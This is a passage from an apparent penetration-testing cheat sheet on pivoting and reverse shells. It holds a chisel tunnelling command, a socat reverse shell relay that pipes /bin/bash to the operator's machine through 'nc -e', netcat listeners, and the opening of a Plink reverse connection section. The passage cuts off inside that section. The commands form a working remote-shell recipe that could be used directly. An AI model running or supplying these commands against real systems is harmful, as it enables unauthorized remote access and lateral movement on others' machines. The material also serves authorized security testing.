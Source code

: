         In your local machine,

        ```sh
        chisel client <listen-ip>:<listen-port> <local-port>:<target-ip>:<target-port>
        ```

<br />

## Reverse Shell Relay

1. **Use Socat**

    1. **Open Listener in Your Local Machine**

        ```sh
        nc -lvnp <local-port>
        ```

    2. **Run Socat in Remote Machine**

        ```sh
        ./socat tcp-l:8000 tcp:<local-ip>:<local-port> &
        nc 127.0.0.1 8000 -e /bin/bash
        ```

    3. **Confirmation in Your Local Machine**

        You can connect the remote shell, confirm by some commands.

        ```sh
        whoami
        ```

    4. **Stop Reverse Shell Relay**

        In remote machine,

        ```sh
        # Stop backgrounds
        jobs
        # kill %<NUMBER>
        kill %1
        ```

<br />

## Reverse Connection

1. **Use Plink (Windows)**

    **Plink** is a Windows command line version of the PuTTY SSH client.

    1. **Open Lisnter in Your Local Machine**

        ```sh
        nc -lvnp 4444
        ```
